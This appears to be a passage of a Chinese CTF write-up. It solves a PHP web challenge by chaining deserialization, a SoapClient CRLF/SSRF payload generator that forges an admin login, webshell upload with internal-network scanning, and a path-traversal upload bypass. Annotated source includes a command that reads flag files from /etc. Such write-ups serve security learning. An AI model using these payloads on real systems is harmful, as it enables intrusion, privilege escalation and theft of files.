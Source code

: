 这里的row[2]就是mood，也是我们可以控制的参数，就是注入点了

操作的时候要注意，publish是一个需要登录后才能进行的操作，而我们传参是为了让admin得以登录，这里采取的方式是用另一个未登录页面的cookie的code生成payload，在已登录的账号上publish并触发反序列化，然后之前的未登录页面刷新即可直接进入个人信息页面了

```php
<?php
$target = 'http://127.0.0.1/index.php?action=login';
$post_string = 'username=admin&password=jaivypassword&code=1243998';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=meailth0scq7kni7m5ihvr7974'
);
$b = new SoapClient(null,array('location' => $target,
    'user_agent'=>'amiz^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo bin2hex($aaa);
?>

```

![image-20211210104504684](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211210104504684.png)

之后admin的publish页面可以直接传webshell，提示flag在内网，用蚁剑连接扫一下内网

![image-20211210104957446](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211210104957446.png)

![image-20211210105227592](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211210105227592.png)

![image-20211210105526356](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211210105526356.png)

在外网就可以直接访问了

![image-20211210105553912](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211210105553912.png)

```php
<?php
$sandbox = '/var/sandbox/' . md5("prefix" . $_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);

if($_FILES['file']['name']){
    $filename = !empty($_POST['file']) ? $_POST['file'] : $_FILES['file']['name'];  // 文件名和后缀分离
    if (!is_array($filename)) { // 我们传入和文件类型file同名的数组 file[] 3个参数
        $filename = explode('.', $filename);
    }
    $ext = end($filename);	// 取的是file[0]
    if($ext==$filename[count($filename) - 1]){  // filename[count(filename)-1]=file[2]
        die("try again!!!");    // file[0]=/../amiz.php	file[2]=222	file[1]=111
    }
    $new_name = (string)rand(100,999).".".$ext; // 随机文件名 /../路径穿越绕过
    move_uploaded_file($_FILES['file']['tmp_name'],$new_name);
    $_ = $_POST['hello'];
    if(@substr(file($_)[0],0,6)==='@<?php'){    // @<?php `find /etc -name *flag* -exec cat {} +`;
        if(strpos($_,$new_name)===false) {
            include($_);
        } else {
            echo "you can do it!";
        }
    }
    unlink($new_name);	// 绕过 ../xyz.php 或xyz.php/. 不会被删除
}
```